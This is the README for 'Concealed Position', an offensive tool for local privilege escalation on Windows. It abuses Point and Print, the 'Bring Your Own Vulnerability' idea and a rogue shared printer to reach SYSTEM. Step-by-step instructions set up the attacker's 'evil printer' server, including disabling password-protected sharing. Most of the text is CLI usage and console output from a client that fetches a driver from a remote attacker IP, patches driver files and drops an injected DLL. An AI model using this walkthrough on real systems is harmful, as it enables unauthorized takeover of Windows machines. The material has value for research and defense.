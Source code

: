 # Concealed Position

Concealed Position is a local privilege escalation attack against Windows using the concept of "Bring Your Own Vulnerability". Specifically, CP uses the Point and Print logic in Windows that allows a low privilege user to install printer driverss. We then exploit the installed driver to escalate to SYSTEM.

## How does it work?
Concealed Position has two parts. A server (pretending to be a printer) and a client (which will do the LPE). The client reaches out to the server, grabs a driver, gets the driver stored in the driver store, installs the printer, and exploits the install process. Easy!

## I want to add to this!
Cool! Should be pretty easy. The only hard part is that the printer driver must be packaged into a CAB file.

## How do I use this super neat tool?

Let's walk through a step by step guide.

### Server (evil printer) Usage 
To start we prepare the server. It must be a Windows box and it is assumed the attacker has admin privs on this box.

1. Copy the 3rdparty directory onto the Windows box.
2. Copy the cp_server binary (from the bin directory) onto the Windows box.
3. Copy the cab_files directory (from the Windows box) onto the Windows box.
4. From the 3rdparty directory, run converter.exe.
5. From the 3rdparty directory, run CuteWriter.exe.
6. As Administrator, run cp_server.exe. Ensure that the cab_files directory is in the same directory as cp_server.exe. The output should look like this:

```
C:\Users\albinolobster\Desktop>cp_server.exe -h
CLI options:
  -h, --help         Display the help message
  -e, --exploit arg  The exploit to use

Exploits available:
        ACIDDAMAGE
        POISONDAMAGE
        RADIANTDAMAGE

C:\Users\albinolobster\Desktop>cp_server.exe -e ACIDDAMAGE
[+] Checking CutePDF Writer is installed
[+] Staging ACIDDAMAGE files
[+] Opening CutePDF Writer registry for writing
[+] Setting PrinterDriverAttributes
[+] Setting InfPath
[+] Done.
[!] MANUAL STEPS!
[1] Set CutePDF Writer as a shared printer
[2] In Advanced Sharing Settings, Turn on file and printer sharing.
[3] In Advanced Sharing Settings, Turn off password protected sharing.
[4] Reboot

C:\Users\albinolobster\Desktop>
```

7. Set CutePDF Writer as a shared printer (Printer & Scanners -> CutePDF Writer -> Manage -> Printer Properties -> Sharing -> Share this printer)
8. Enable File and Printer sharing (Manage advanced sharing settings -> Guest or Public -> Turn on file and printer sharing)
9. Disable password protected sharing (Manage advanced sharing settings -> All Networks -> Turn off password protected sharing)
10. Reboot

### Client Usage

Client is assumed to be a low privileged user on a Windows box.

1. Copy cp_client.exe to the machine (from bin directory).
2. Provide cp_client.exe with: the evil printer to connect to (-r), the name of the evil printer (-n), and the expected driver (-e).

```
C:\Users\lowlevel\Desktop>cp_client.exe -h
 _______  _______  __    _  _______  _______  _______  ___      _______  ______
|       ||       ||  |  | ||       ||       ||   _   ||   |    |       ||      |
|       ||   _   ||   |_| ||       ||    ___||  |_|  ||   |    |    ___||  _    |
|       ||  | |  ||       ||       ||   |___ |       ||   |    |   |___ | | |   |
|      _||  |_|  ||  _    ||      _||    ___||       ||   |___ |    ___|| |_|   |
|     |_ |       || | |   ||     |_ |   |___ |   _   ||       ||   |___ |       |
|_______||_______||_|  |__||_______||_______||__| |__||_______||_______||______|
 _______  _______  _______  ___   _______  ___   _______  __    _
|       ||       ||       ||   | |       ||   | |       ||  |  | |
|    _  ||   _   ||  _____||   | |_     _||   | |   _   ||   |_| |
|   |_| ||  | |  || |_____ |   |   |   |  |   | |  | |  ||       |
|    ___||  |_|  ||_____  ||   |   |   |  |   | |  |_|  ||  _    |
|   |    |       | _____| ||   |   |   |  |   | |       || | |   |
|___|    |_______||_______||___|   |___|  |___| |_______||_|  |__|

CLI options:
  -h, --help         Display the help message
  -r, --rhost arg    The remote evil printer address
  -n, --name arg     The remote evil printer name
  -e, --exploit arg  The exploit to use

Exploits available:
        ACIDDAMAGE
        POISONDAMAGE
        RADIANTDAMAGE
C:\Users\lowlevel\Desktop>cp_client.exe -r 192.168.237.176 -n "CutePDF Writer" -e ACIDDAMAGE
 _______  _______  __    _  _______  _______  _______  ___      _______  ______
|       ||       ||  |  | ||       ||       ||   _   ||   |    |       ||      |
|       ||   _   ||   |_| ||       ||    ___||  |_|  ||   |    |    ___||  _    |
|       ||  | |  ||       ||       ||   |___ |       ||   |    |   |___ | | |   |
|      _||  |_|  ||  _    ||      _||    ___||       ||   |___ |    ___|| |_|   |
|     |_ |       || | |   ||     |_ |   |___ |   _   ||       ||   |___ |       |
|_______||_______||_|  |__||_______||_______||__| |__||_______||_______||______|
 _______  _______  _______  ___   _______  ___   _______  __    _
|       ||       ||       ||   | |       ||   | |       ||  |  | |
|    _  ||   _   ||  _____||   | |_     _||   | |   _   ||   |_| |
|   |_| ||  | |  || |_____ |   |   |   |  |   | |  | |  ||       |
|    ___||  |_|  ||_____  ||   |   |   |  |   | |  |_|  ||  _    |
|   |    |       | _____| ||   |   |   |  |   | |       || | |   |
|___|    |_______||_______||___|   |___|  |___| |_______||_|  |__|

[+] Checking if driver is already installed
[-] Driver is not available.
[+] Call back to evil printer @ \\192.168.237.176\CutePDF Writer
[+] Staging driver in driver store
[+] Driver staged!
[+] Installing the staged driver
[+] Driver installed!
[+] Starting ACIDDAMAGE
[+] Checking if C:\ProgramData\Lexmark Universal v2\ exists
[-] Target directory doesn't exist. Trigger install.
[+] Installing printer
[+] Read in C:\ProgramData\Lexmark Universal v2\Universal Color Laser.gdl
[+] Searching file contents
[+] Updating file contents
[+] Dropping updated gpl
[+] Dropping dll to disk
[+] Installing printer

C:\Users\lowlevel\Desktop>
```

3. The exploit should automatically run. On success, the "inject_me" binary is loaded with SYSTEM privileges. As this is a simple PoC it simply executes "WinExec("cmd.exe /c whoami > c:\\result.txt", SW_HIDE);"

### Other things

One thing to note is that the inject_me dll is actually embedded in the cp_client as a C array. If you update inject_me, you'll need to manually update the C array as well (just use xxd to generate the array).
